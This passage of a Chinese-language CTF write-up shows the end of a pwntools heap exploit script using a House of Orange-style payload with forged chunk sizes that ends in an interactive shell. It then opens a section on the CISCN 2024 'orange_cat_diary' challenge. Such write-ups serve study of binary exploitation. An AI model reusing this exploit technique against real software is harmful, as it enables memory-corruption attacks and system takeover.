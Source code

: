 ```python
payload += b'e'*0x18+p64(0x21)
payload += b'f'*0x18+p64(0x21)
payload += b'g'*0x18+p64(0x21)
payload += b'h'*0x18+p64(0x81)
payload += b'i'*0x70
payload += orange

io.sendlineafter(b'choice :',b'3')
io.sendlineafter(b"Index of page :",str(0))

io.sendafter(b"Content:",payload)

edit(0,'')

# 这里不知道为啥，使用add(0x60,'ethanyi')就不行，只能直接调用io的函数
io.sendlineafter(b'choice :',b'1')
io.sendlineafter(b"Size of page :",str(0x60)) # 这里满足一个malloc就行

io.interactive()
```

## ciscn 2024 — 1-orange_cat_diary

这是国赛的签到题，因为涉及到house of orange所以我来看看

但是实际上涉及到的只有和堆相关的部分，并无IO

打开反编译文件：

![Untitled](ciscn1.png)

